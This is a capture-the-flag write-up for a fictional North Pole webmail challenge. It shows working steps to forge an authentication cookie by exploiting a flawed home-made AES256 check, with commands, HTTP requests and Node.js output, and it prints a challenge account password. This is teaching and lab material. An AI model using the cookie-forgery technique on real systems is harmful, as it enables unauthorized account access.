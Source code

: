 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Elf Web Access (EWA) is the preferred mailer for North Pole elves,
available internally at http://mail.northpolechristmastown.com. What
can you learn from The Great Book page found in an e-mail on that
server?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Hints:

Pepper Minstix gives us the following hints:

  1. I'm so excited for the new email system that Alabaster Snowball set up for us. He spent a lot of time working on it. Should make it very easy for us to share cookie recipes. I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
  2. The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
  3. AES256? Honestly, I don't know much about it, but Alabaster explained the basic idea and it sounded easy. During decryption, the first 16 bytes are removed and used as the initialization vector or "IV." Then the IV + the secret key are used with AES256 to decrypt the remaining bytes of the encrypted string.
  4. Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
  5. Every year when Santa gets back from delivering presents to the good girls and boys, he tells us stories about all the cookies he receives. I love everything about cookies! Cooking them, eating them, editing them, decorating them, you name it!

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

The question tells us that the page we're looking for is in an e-mail. So, we need to figure out some way to login to the mail system and find the crucial message.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

First off, let's pull up the website in our web browser. SSH can run a
SOCKS proxy for us, which we can use to tunnel our traffic through
l2s. We use the access we got in Question 2 to SSH in:

#+BEGIN_SRC sh
ssh -D 31080 alabaster_snowball@l2s.northpolechristmastown.com
#+END_SRC

I like to use Firefox for this, since, unlike Chrome, we can configure proxy settings different from the system-wide settings:

#+CAPTION: Elf Web Access
#+attr_html: :width 500px
[[./images/firefox_proxy.png]]

Now we can just navigate to http://mail.northpolechristmastown.com:

#+CAPTION: Elf Web Access
#+attr_html: :width 350px
[[./images/ewa.png]]

Luckily, we got Alabaster's password in Question 2, so let's login!

#+CAPTION: Logging in as alabaster_snowball/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_email.png]]

Of course! We need an e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_username.png]]

Luckily, the error message tells us how we need to format the e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_password.png]]

Curses! Looks like Alabaster is at least smart enough to not reuse credentials. Let's review some of the hints that Pepper gave us:

#+BEGIN_QUOTE
I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
#+END_QUOTE

We scanned this EWA system with =nmap= before, and one of the =nmap= scripts did find a reference in ~robots.txt~:

#+BEGIN_SRC 
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
#+END_SRC

Given how much Pepper harps on cookies, perhaps this file is worth investigating. When we view it, we see:

#+BEGIN_SRC javascript
//FOUND THESE FOR creating and validating cookies. Going to use this in node js
function cookie_maker(username, callback){
    var key = 'need to put any length key in here';
    //randomly generates a string of 5 characters
    var plaintext = rando_string(5)
    //makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
    //Removes equals from output so as not to mess up cookie. decrypt function can account for this without erroring out.
    var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
    //Setting the values of the cookie.
    var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), { maxAge: 86400000, httpOnly: true, encode: String }]
    return callback(acookie);
};
function cookie_checker(req, callback){
    try{
        var key = 'need to put any length key in here';
        //Retrieving the cookie from the request headers and parsing it as JSON
        var thecookie = JSON.parse(req.cookies.IOTECHWEBMAIL);
        //Retrieving the cipher text 
        var ciphertext = thecookie.ciphertext;
        //Retrievingin the username
        var username = thecookie.name
        //retrieving the plaintext
        var plaintext = aes256.decrypt(key, ciphertext);
        //If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
        if (plaintext === thecookie.plaintext) {
            return callback(true, username);
        } else {
            return callback(false, '');
        }
    } catch (e) {
        console.log(e);
        return callback(false, '');
    }
};
#+END_SRC

There's a lot to parse here, but given the number of times AES and IVs are mentioned in the hints, this looks like we're on the right path.

Our next hint is:

#+BEGIN_QUOTE
The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
#+END_QUOTE

Uh-oh... Coming up with your own cryptography scheme should send up all the red flags.

#+BEGIN_QUOTE
Happy families are all alike; every unhappy family is unhappy in its own way. --   Leo Tolstoy
#+END_QUOTE

#+BEGIN_QUOTE
Empty plaintext encrypted without using HMAC are all alike; Rolling your own crypto makes all cryptographers unhappy. -- Justin Azoff
#+END_QUOTE

At this point, we suspect that there's some kind of vulnerability in the cryptography being used. Reading on:

#+BEGIN_QUOTE
AES256? Honestly, I don't know much about it, but Alabaster explained
the basic idea and it sounded easy. During decryption, the first 16
bytes are removed and used as the initialization vector or "IV." Then
the IV + the secret key are used with AES256 to decrypt the remaining
bytes of the encrypted string.
#+END_QUOTE

Let's pause for a moment to review what we know so far. The e-mail application uses cookies for authentication.

#+BEGIN_SRC js
  var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), 
		 { maxAge: 86400000, httpOnly: true, encode: String }]
#+END_SRC

As we can see from the line above, the cookie contains a username,
some plaintext, and some ciphertext. The ~cookie_checker~ function
takes the encrypted ciphertext, and attempts to decrypt it with a
secret key that only the application has. If the result matches the
plaintext from the cookie, the cookie is authentic:

#+BEGIN_SRC js
var plaintext = aes256.decrypt(key, ciphertext);
//If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
if (plaintext === thecookie.plaintext) {
    return callback(true, username);
} else {
    return callback(false, '');
}
#+END_SRC

The code, as well as Pepper's hints, tell us something about the structure of the ciphertext:

#+BEGIN_SRC js
//makes the string into cipher text .... in base64. 
// When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
#+END_SRC

Finally, Pepper gives us this tantalizing hint:

#+BEGIN_QUOTE
Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
#+END_QUOTE

By reading the code closely we can see that when the application *creates* a cookie, the plaintext is 5 random characters. However, nothing in the verification logic requires this. The only check is:

#+BEGIN_SRC js
aes256.decrypt(key, ciphertext) === thecookie.plaintext
#+END_SRC

Let's see what a valid cookie looks like:

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/'
HTTP/1.1 200 OK
...
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: EWA={"name":"GUEST","plaintext":"","ciphertext":""}; Max-Age=86400; Path=/; Expires=Wed, 10 Jan 2018 23:37:29 GMT; HttpOnly
...
#+END_SRC

Let's try what Pepper Minstix suggests: setting our ciphertext to only
be 16 characters long. We know that this is base64 encoded, so we'll
run:

#+BEGIN_SRC 
$ echo -n "Security at NCSA" | base64
U2VjdXJpdHkgYXQgTkNTQQ==
#+END_SRC

We're using the =-n= flag of =echo= to not have a newline at the end, which would give us a 17 character length cookie.

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/' $'Cookie:EWA={"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}'
HTTP/1.1 200 OK
...
X-Powered-By: Express

<script>window.location.href='/account.html'</script>
#+END_SRC

That looks promising! Let's move from the command line back to Firefox. One easy way to edit cookies in Firefox is to go to Tools => Web Developer => Storage Inspector. We should see an =EWA= cookie in there already, and we can simply double-click the value field and paste in our forged cookie:

#+BEGIN_SRC
{"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}
#+END_SRC

Now we just reload the page, and we're in!

#+CAPTION: Logging in with our forged cookie
#+attr_html: :width 500px
[[./images/ewa_loggedin.png]]

*** An Alternative Solution: Black Box Cracking

Given some of the discussion in the chat, this was one of the hardest
questions. This section goes deeper into the cookie creation and
validation code, and it offers an alternative solution. Finding
=cookie.txt= from the =robots.txt= file made this question much
easier, but this version lays out the approach to solve this question
without that file. Independently, one of our team members used the
previous solution, and one used this solution.

The Javascript code used is a variation of a challenge response
algorithm, but it is flawed in that the client is providing both the
challenge and the response.  It is also flawed in that it does not use
MAC
https://en.wikipedia.org/wiki/Authenticated_encryption#MAC-then-Encrypt_(MtE)
meaning that the encrypted contents themselves are never verified.

Since we can control both the ciphertext and the expected plaintext, we can
just set the challenge to the empty string "" and the response then just needs
to be ANY message that decrypts to "".  Since the message is empty, the key is
irrelevant, we just need to work out how to properly generate a ciphertext that
will decrypt to nothing.

A completely empty ciphertext throws an error:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.decrypt('key does not matter', '')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

A larger ciphertext works, but gives us a random string, which is not what we want.. but 
we can see that a fairly long cipher text only gives us a few bytes of plaintext...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
'F..%=X..'
#+END_SRC

The difference in the length of the two strings is 24:

#+BEGIN_SRC js
> x='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
> x.length - aes256.decrypt('key does not matter',x).length
24
#+END_SRC

From the hints, we learn that some of the bytes are used for the IV.

The AES library won't let us encrypt an empty string, but we can encrypt a single char:

#+BEGIN_SRC js
> aes256.encrypt('key does not matter', '')
TypeError: Provided "plaintext" must be a non-empty string
    at Object.encrypt (/Users/user/node_modules/aes256/index.js:39:13)
> aes256.encrypt('key does not matter', 'x')
'L7rwNMwISl2chavT6lILlNM='
> aes256.encrypt('key does not matter', 'x').length
24
#+END_SRC

This gives a ciphertext of length 24 with one byte of = for padding.  This
means that 22 bytes are used for the IV and one byte is used to encrypt the 'x'
itself.

So, at this point it is clear that something interesting happens around 22-24 chars.

Trying different lengths approaching a length of 22 continues to throw an error
for a while...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaa')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

Until the error changes:

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
> 'aaaaaaaaaaaaaaaaaaaaaa'.length
22
> aes256.decrypt('key really does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
#+END_SRC

Success!  A string of any 22 chars will decrypt to the empty string.

An alternative approach would be to edit the aes library and comment out this block:

#+BEGIN_SRC js
if (typeof plaintext !== 'string' || !plaintext) {
  throw new TypeError('Provided "plaintext" must be a non-empty string');
}
#+END_SRC

With the throw commented out, we can encrypt an empty string:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.encrypt('whatever', '')
'SStLU1QxLjmtG/Ea8hMH0Q=='
> ct=aes256.encrypt('whatever', '')
'tYcVb4PRsdq4JWl5XMSNgw=='
> aes256.decrypt('a different key entirely', ct)
''
> ct.length
24
#+END_SRC

The length is different(24 instead of 22), but only because it is padded with 2
bytes of == for base64 purposes.

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:



** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

Any other, easier solutions?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

Do we know what issue(s) people were running into?

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

How was the challenge setup? Was there a better way to secure this
system?
